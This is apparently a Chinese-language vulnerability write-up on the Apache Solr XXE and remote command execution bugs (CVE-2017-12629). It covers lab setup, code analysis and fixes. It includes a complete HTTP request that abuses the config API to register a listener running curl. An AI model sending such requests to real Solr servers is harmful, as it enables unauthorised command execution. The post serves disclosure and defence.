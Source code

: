 ```yaml
---
layout:     post
title:      "CVE-2017-12629 - Apache Solr XXE & RCE 漏洞分析"
date:       2017-10-24
categories: [XXE, Remote Code Execution, Java Security]

---
```


### Versions Affected

```
Apache Solr before 7.1.0 with Apache Lucene before 7.1
Elasticsearch, although it uses Lucene, is NOT vulnerable to this.
```

### Description

​	Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE）。

### First Vulnerability:  XML External Entity Expansion

#### Test Environment

> Linux Ubuntu server x64
>
> **Apache Solr 7.0.1** (https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/7.0.1/)
>
> **Java SE Development Kit 8** (http://www.oracle.com/technetwork/java/javase/downloads/jdk8-downloads-2133151.html)  
>

**1. 启动Solr**

Solr不需要额外安装，解压安装包即可，通过bin/solr目录来启动

```shell
$ bin/solr start
```

如果在Windows平台，可以这样启动：

```powershell
bin\solr.cmd start
```

这样就可以在后台启动Solr，并监听8983端口，启动脚本会检查启动的正确性并返回提示信息到控制台。这时就可以通过浏览器来访问管理控制台(http://localhost:8983/solr/)。

**2. 创建Core**

如果没有使用示例配置，为了能够建立索引和查询，这里必须创建一个Core

```shell
$ bin/solr create -c Urahara # Urahara为你要创建的Core的名称
```

这会使用data-driven schema创建一个core，会尝试根据添加的文档来确定类型建立索引。

查看所有创建新core的选项：

```shell
$ bin/solr create -help
```

**3. 添加文档**

这时候Solr中还是空的，我们需要添加一些文档以便进行索引。在example/目录的子目录下有不同的类型。

在bin/目录下有一个发送脚本，是一个命令行工具，可以索引不同的文档。现在不需要关心太多细节。索引部分的所有细节都在The Indexing and Basic Data Operations部分。

要查看有关bin/post的有关信息，使用-help选项。Windows用户可以参考bin/post工具的Windows部分。bin/post可以发送各种数据类型到Solr，包括原生的XML和JSON格式、CSV文件，丰富的文档目录树，甚至是抓取的简单网页。

继续，根据示例XML文件添加所有文档：

![solr-post](http://reverse-tcp.xyz/static/img/posts/solr/solr-post.png)

完成上述操作Solr就已经为这些文档建立索引并包含在这些文件中。

现在，我们有了索引文档可以执行查询。比如下面在所有文档中查询video

![solr-select](http://reverse-tcp.xyz/static/img/posts/solr/solr-select.png)

#### Vulnerability Analysis

这是一个典型XXE漏洞的缺陷编码示例，Lucene包含了一个查询解析器支持XML格式进行数据查询，出现问题的代码片段在/solr/src/lucene/queryparser/src/java/org/apache/lucene/queryparser/xml/CoreParser.java文件中

![parseXML](http://reverse-tcp.xyz/static/img/posts/solr/parseXML.png)

通过查看调用栈中的数据处理流程，在调用lucene xml解析器时确实没有对DTD和外部实体进行禁用处理，造成了Blind XXE。

![solr-xxe](http://reverse-tcp.xyz/static/img/posts/solr/solr-xxe.png)

### Second Vulnerability: Remote Code Execution

依据漏洞作者所披露的漏洞细节来看，RCE需要使用到SolrCloud Collections API，所以**RCE只影响Solrcloud分布式系统**。

#### Test Environment

> Linux Ubuntu server x64
>
> **Apache Solr 7.0.1** (https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/7.0.1/)
>
> **Java SE Development Kit 8** (http://www.oracle.com/technetwork/java/javase/downloads/jdk8-downloads-2133151.html)  
>
> **Zookeeper 3.4.6** (http://mirror.bit.edu.cn/apache/zookeeper/)
>

这里我搭建了单节点伪分布式SolrCloud进行漏洞复现和调试

**1. 启动Zookeeper**

在ZooKeeper目录创建data目录，用来作为单个ZooKeeper节点的存储目录，在该目录下建立一个myid文件```echo 1 > data/myid``` 

打开conf/zoo.cfg文件，进行如下修改: dataDir修改为data的路径，并在文件末尾加上如下配置```server.1=localhost:2287:3387``` 

通过```bin/zkServer.sh start ./conf/zoo.cfg``` 启动Zookeeper服务

**2. 启动Solr**

启动Solr时需要与Zookeeper端口对应

```shell
bin/solr start -p 8983 -f -a "-DzkHost=localhost:2181"
```

至此，我们已完成了SolrCloud的伪分布式搭建

![solrcloud](http://reverse-tcp.xyz/static/img/posts/solr/solrcloud.png)

#### Vulnerability Analysis

RunExecutableListener类中使用了``Runtime.getRuntime().exec()``方法，可用于在某些特定事件中执行任意命令

![exec](http://reverse-tcp.xyz/static/img/posts/solr/exec.png)

使用了config API传入add-listener命令即可调用RunExecutableListener

![RunExecutableListener](http://reverse-tcp.xyz/static/img/posts/solr/RunExecutableListener.png)

```http
POST /solr/newcollection/config HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"curl",
    "dir":"/usr/bin/",
    "args":["http://127.0.0.1:8080"]
  }
}
```

而这里的"exe"，"dir"，"args"内容也都可以通过http的方式传入，所以在没有访问控制的情况下任何人都可以通过该config API 达到任意命令执行的操作

通过查看代码，能够触发命令执行的事件有两个：```postCommit``` 和 ```newSearcher``` 

![exec-Event](http://reverse-tcp.xyz/static/img/posts/solr/exec-Event.png)

使用postCommit时，需要使用update进行collection更新后命令才会执行，因此需要两次进行请求

![postCommit-1](http://reverse-tcp.xyz/static/img/posts/solr/postCommit-1.png)

![postCommit-2](http://reverse-tcp.xyz/static/img/posts/solr/postCommit-2.png)

而使用newSearcher时可直接执行命令

![newSearcher](http://reverse-tcp.xyz/static/img/posts/solr/newSearcher.png)

### Solution

1. 添加Solr访问控制，**包括禁止本地直接未授权访问** 
2. 升级版本至7.1，该版本已经解决了XML解析问题并删除了RunExecutableListener类
3. 针对XXE可手动修改CoreParser.java文件，按照通常防止基于DOM解析产生XXE的防范方法修复即可

```Java
static Document parseXML(InputStream pXmlFile) throws ParserException {
    DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
    DocumentBuilder db = null;
    try {
      //protect from XXE attacks
      dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
      dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
      dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
      
      db = dbf.newDocumentBuilder();
    }
    catch (Exception se) {
      throw new ParserException("XML Parser configuration error", se);
    }
    org.w3c.dom.Document doc = null;
    try {
      doc = db.parse(pXmlFile);
    }
```

3. 针对RCE问题，由于涉及的是SolrCloud所以建议在所有节点中添加filter，进行相关过滤

### Referer

http://lucene.472066.n3.nabble.com/Re-Several-critical-vulnerabilities-discovered-in-Apache-Solr-XXE-amp-RCE-td4358308.html

http://seclists.org/oss-sec/2017/q4/79

